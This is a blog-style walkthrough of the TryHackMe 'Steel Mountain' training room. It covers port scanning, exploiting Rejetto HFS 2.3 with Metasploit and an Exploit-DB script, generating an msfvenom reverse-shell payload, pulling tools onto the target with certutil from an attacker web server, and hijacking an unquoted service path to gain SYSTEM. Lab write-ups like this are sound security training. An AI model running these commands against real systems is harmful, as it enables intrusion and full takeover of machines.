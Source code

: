 ```yaml
---
slug: steel-mountain-walkthrough
title: TryHackMe - Steel Mountain - Walkthrough
authors: bw
tags: [learning, steelmountain, tryhackme, walkthrough]
---
```


This is a [TryHackMe][tryhackme] walkthrough for the room: [Steel Mountain][sm]. Deploy the machine and let’s get started!

# Enumeration
Start with our friend, nmap: `nmap -T4 -A -p- 10.10.89.192`

![sm1](/src/img/thm/steelmountain/sm1.png)

We get some good info here. We can see there is a website on port 80, also some other interesting ports. Let’s take a look at port 80 first!

![sm2](/src/img/thm/steelmountain/sm2.webp)

Hmm…not much here. Viewing the page source gives us our first answer though!

![sm3](/src/img/thm/steelmountain/sm3.png)

Let’s take a look at the other webserver (Second answer). For the third answer, take a look at the **Server Information**.

For the next answer, give Google a shot. [Exploit-DB][exdb] is always a good resource!

# Exploit
According to the next question, we need to use Metasploit: `msfconsole`

```bash
search rejetto 2.3
use 0
info
```
![sm4](/src/img/thm/steelmountain/sm4.png)

This definitely looks like what we are looking for! Now we need to set the options:

```bash
options
set rhosts 10.10.89.192
set rhosts rport 8080
set lhost tun0
options
```

I think that’s all we need: `run`

We have a shell! Let’s look for the user flag.

```bash
getuid
shell
cd C:\Users\bill
dir Desktop
type Desktop\user.txt
```
We found our `user.txt` flag!

![sm5](/src/img/thm/steelmountain/sm5.png)

Next, let’s download the provided PowerShell script: PowerUp

Just like the room tells us, let’s upload the script: `upload <path>/powerup.ps1`

Continue to follow the room instructions:

```powershell
load powershell
powershell_shell
. .\powerup.ps1
Invoke-AllChecks
```

Pay attention to all the checks being populated. There are some that have:
- `CanRestart: True`
- `Check: Unquoted Service Paths`

The ServiceName that belongs to those is our next answer!

Let’s create our payload using `msfvenom`:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<THM VPN IP> LPORT=4443 -e x86/shikata_ga_nai -f exe -o Advanced.exe
```

Exit out of the PowerShell session CTRL + C and then upload the payload: `Advanced.exe`

Now let’s stop the service and copy the file into the correct directory:

`sc stop <name of service>`

`copy Advanced.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"`

Overwrite the current file. Now we need to setup a listener on our local machine so the payload has something to connect the reverse shell to!

`nc -nvlp 4443`

Start the service: `sc start <name of service>`

Go look at your `netcat` terminal and you should have a shell! Find the root flag.

![sm6](/src/img/thm/steelmountain/sm6.png)

# Manual Exploitation
Now, we aren’t done with the room, but if this were real-world we have full system access and have complete control of the machine. I like how this room includes a manual exploitation section (good to learn for the OSCP) which is super useful!

We are provided with an exploit. So let’s keep going!

Create/copy the following files on your local machine:
- `exploit.py`
- `nc.exe`
- `winPEAS.exe`

Here are the links to download:
- [Exploit][rejetto]
- [nc listener][nc] (rename to `nc.exe` if it isn’t already)
- [winPEAS.exe][winpeas] (rename to `winPEAS.exe` if it isn’t already)
**NOTE:** Downloading winPEAS may get flagged by the browser. Make sure to accept any warning about a malicious file.

Now open 3 terminal windows:
1. Python Web Server
2. Netcat listener
3. run exploit

Edit the exploit to add our machine IP and port

![sm7](/src/img/thm/steelmountain/sm7.png)

In the Python webserver run: `python3 -m http.server 80`

In the netcat listener terminal run: `nc -nvlp 1234`

In the exploit terminal run: `python exploit.py 10.10.89.192 8080` (run this twice)

You should now have a shell!

Navigate to `C:\Users\Bill\Desktop` and pull `winPEAS.exe` to the server

`certutil -urlcache -f http://<THM VPN IP>/winPEAS.exe winPEAS.exe`

Now that we have that on the server, we can run it by simply doing: `winPEAS.exe` which provides us with unquoted paths and the ServiceName.

Utilize Google to find out the last question: `powershell -c <command>`

Now the next steps to get system is the same as before:

1. Configure an `msfvenom` payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<THM VPN IP> LPORT=4443 -e x86/shikata_ga_nai -f exe -o Advanced.exe
```
2. Utilize `certutil` to get the payload onto the server
3. Stop the service
4. Start a new `netcat` listener
5. Start the service
6. You should now be `NT AUTHORITY\SYSTEM`

# Review
This was a really well done room. It was a “walkthrough” but didn’t give you everything. It is a good in-between for someone who is doing well in walkthroughs but gets stuck on CTF type rooms.

Steel Mountain provided a good overall review of enumeration, privilege escalation, and exploitation. My favorite part was that it covered metasploit exploitation and manual exploitation!

References
[TryHackMe][tryhackme] | [Steel Mountain Room][sm] | [Exploit-DB][exdb] | [Rejetto Exploit][rejetto] | [nc listener][nc] | [winPEAS Download][winpeas]

[tryhackme]: https://tryhackme.com
[sm]: https://tryhackme.com/why-subscribe?roomCode=steelmountain
[exdb]: https://www.exploit-db.com
[rejetto]: https://www.exploit-db.com/exploits/39161
[nc]: https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
[winpeas]: https://github.com/peass-ng/PEASS-ng/tree/master
